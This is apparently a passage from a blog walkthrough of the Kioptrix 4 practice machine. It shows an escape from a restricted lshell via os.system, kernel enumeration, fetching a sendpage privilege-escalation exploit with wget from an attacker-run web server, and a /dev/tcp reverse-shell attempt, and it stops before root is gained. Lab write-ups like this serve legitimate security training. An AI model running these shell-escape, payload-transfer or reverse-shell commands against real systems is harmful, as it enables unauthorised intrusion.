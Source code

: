 
It is an limited shell:

'ls -ahlR /root/'

{% img  /images/blog/vulhub/kioptrix4/Selection_012.png   [title manually exploit [alt text]] %}



After google it, I found it may be lshell

[lshell](https://github.com/ghantoos/lshell)

lshell is a shell coded in Python, that lets you restrict a user's environment to limited sets of commands, choose to enable/disable any command over SSH (e.g. SCP, SFTP, rsync, etc.), log user's commands, implement timing restriction, and more. 

looks like it support command echo, try to get bash:

`echo os.system("/bin/bash")`

{% img  /images/blog/vulhub/kioptrix4/Selection_011.png   [title manually exploit [alt text]] %}

Got the shell now!

start to get root...

Enumeration stage,

`uname -a`

{% img  /images/blog/vulhub/kioptrix4/Selection_013.png   [title manually exploit [alt text]] %}

`searchsploit linux kernel 2.6 | grep local` and I pick sendpage one 

{% img  /images/blog/vulhub/kioptrix4/Selection_014.png   [title manually exploit [alt text]] %}

download the exploit to /var/www/html/:

`wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/9641.tar.gz`

start web server:

`service apache2 start`

in kioptrix4 

`wget http://192.168.79.173/9641.tar.gz`

hang there, maybe iptable block the traffic to port 80

{% img  /images/blog/vulhub/kioptrix4/Selection_015.png   [title manually exploit [alt text]] %}

I tried `/bin/bash -i > /dev/tcp/192.168.79.173/1234 0<&1` also doesn't work

finally I used python SimpleHTTPServer:

`service apache2 stop`
`python -m SimpleHTTPServer`

in kioptrix4 

`wget 192.168.79.173:8000/9641.tar.gz`
